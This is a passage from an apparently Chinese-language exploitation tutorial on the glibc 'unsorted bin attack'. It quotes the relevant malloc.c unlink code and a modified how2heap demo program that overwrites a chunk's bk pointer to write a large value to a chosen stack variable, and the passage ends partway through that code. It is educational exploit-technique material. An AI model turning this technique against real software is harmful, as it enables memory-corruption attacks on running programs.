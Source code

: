 ## Unsorted Bin Attack 原理

1. 在 [glibc](https://code.woboq.org/userspace/glibc/)/[malloc](https://code.woboq.org/userspace/glibc/malloc/)/[malloc.c](https://code.woboq.org/userspace/glibc/malloc/malloc.c.html) 中的 `_int_malloc` 有这么一段代码，当将一个 **unsorted bin 取出**的时候，会将 `bck->fd` 的位置写入本 Unsorted Bin 的位置：

   ```c
             /* remove from unsorted list */
             if (__glibc_unlikely (bck->fd != victim))
               malloc_printerr ("malloc(): corrupted unsorted chunks 3");
             unsorted_chunks (av)->bk = bck;
             bck->fd = unsorted_chunks (av);
   ```

   换而言之，如果我们**控制了 bk 的值**，我们就能将 `unsorted_chunks (av)` **写到任意地址**。

2. 这里我以 shellphish 的 how2heap 仓库中的 [unsorted_bin_attack.c](https://github.com/shellphish/how2heap/blob/master/unsorted_bin_attack.c) 为例进行介绍，这里我做一些简单的修改，如下：

   ```c
   #include <stdio.h>
   #include <stdlib.h>
   
   int main() {
     fprintf(stderr, "This file demonstrates unsorted bin attack by write a large "
                     "unsigned long value into stack\n");
     fprintf(
         stderr,
         "In practice, unsorted bin attack is generally prepared for further "
         "attacks, such as rewriting the "
         "global variable global_max_fast in libc for further fastbin attack\n\n");
   
     unsigned long target_var = 0;
     fprintf(stderr,
             "Let's first look at the target we want to rewrite on stack:\n");
     fprintf(stderr, "%p: %ld\n\n", &target_var, target_var);
   
     unsigned long *p = malloc(400);
     fprintf(stderr, "Now, we allocate first normal chunk on the heap at: %p\n",
             p);
     fprintf(stderr, "And allocate another normal chunk in order to avoid "
                     "consolidating the top chunk with"
                     "the first one during the free()\n\n");
     malloc(500);
   
     free(p);
     fprintf(stderr, "We free the first chunk now and it will be inserted in the "
                     "unsorted bin with its bk pointer "
                     "point to %p\n",
             (void *)p[1]);
   
     /*------------VULNERABILITY-----------*/
   
     p[1] = (unsigned long)(&target_var - 2);
     fprintf(stderr, "Now emulating a vulnerability that can overwrite the "
                     "victim->bk pointer\n");
     fprintf(stderr, "And we write it with the target address-16 (in 32-bits "
                     "machine, it should be target address-8):%p\n\n",
             (void *)p[1]);
   
     //------------------------------------
   
     malloc(400);
     fprintf(stderr, "Let's malloc again to get the chunk we just free. During "
                     "this time, target should has already been "
   ```